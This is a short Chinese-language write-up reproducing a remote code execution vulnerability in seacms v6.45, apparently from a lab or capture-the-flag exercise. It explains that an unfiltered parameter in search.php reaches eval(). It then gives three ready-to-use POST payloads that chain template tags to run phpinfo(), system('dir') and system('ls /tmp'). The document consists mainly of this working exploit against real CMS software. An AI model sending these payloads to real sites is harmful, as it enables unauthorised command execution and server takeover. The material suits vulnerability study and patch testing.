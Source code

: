 # seacms v6.45 任意代码执行漏洞

## 一、漏洞描述

seacms v6.45 中有个可控的变量没有经过过滤，就被带入了 eval() 中，导致了代码执行。

## 二、漏洞复现

使用 hackbar 插件进行漏洞复现

### 1. 代码执行

http://xxxxxxxx/search.php
post数据：
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();

![](_v_images/20200527192102787_714.png)



### 2. 命令执行

searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('dir');

![](_v_images/20200527192615646_24839.png) 



### 3. 获取Flag

searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('ls /tmp');

![](_v_images/20200527192528773_13488.png)